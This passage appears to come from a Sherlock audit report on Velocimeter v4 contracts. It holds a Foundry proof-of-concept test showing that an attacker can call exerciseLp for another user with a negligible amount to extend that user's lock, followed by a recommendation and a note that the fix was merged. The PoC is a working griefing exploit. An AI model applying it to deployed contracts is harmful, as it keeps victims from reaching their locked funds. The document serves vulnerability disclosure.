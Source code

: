 ```solidity
        uint256 treasuryDaiBalanceBefore = DAI.balanceOf(address(owner));
        uint256 rewardGaugeDaiBalanceBefore = DAI.balanceOf(address(gauge));

        (uint256 underlyingReserve, uint256 paymentReserve) = IRouter(router).getReserves(address(FLOW), address(DAI), false);
        uint256 paymentAmountToAddLiquidity = (TOKEN_1 * paymentReserve) /  underlyingReserve;

        uint256 discountedPrice = oFlowV4.getLpDiscountedPrice(TOKEN_1,20);
        /// END Not revlevant
      
        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(TOKEN_1 - 3, TOKEN_1 - 3, address(owner2),20,block.timestamp);
        vm.stopPrank();

        // Check end
        uint256 end = gauge.lockEnd(address(owner2));

        /// @audit Move towards unlock
        vm.warp(end - 1);

        /// @audit Attacker locks for owner2, cost is negligible
        vm.startPrank(address(attacker));
        FLOW.approve(address(oFlowV4), TOKEN_1);
        DAI.approve(address(oFlowV4), TOKEN_100K);
        oFlowV4.exerciseLp(3, 3, address(owner2),20,block.timestamp);
        vm.stopPrank();

        uint256 newEnd = gauge.lockEnd(address(owner2));
        /// @audit We delayed the claims with a cost of 3 oFLOW and 2 units of DAI
        assertGt(newEnd, end, "delayed");
    }
```

## Tool used

Manual Review

## Recommendation

We should not be able to exercise on behalf of someone else AND increase their locks

Whenever the recipient is someone else, the lock should not be increased, or alternatively you remove the functionality and only allow the recipient to exercise



## Discussion

**sherlock-admin2**

The protocol team fixed this issue in the following PRs/commits:
https://github.com/Velocimeter/v4-contracts/pull/9
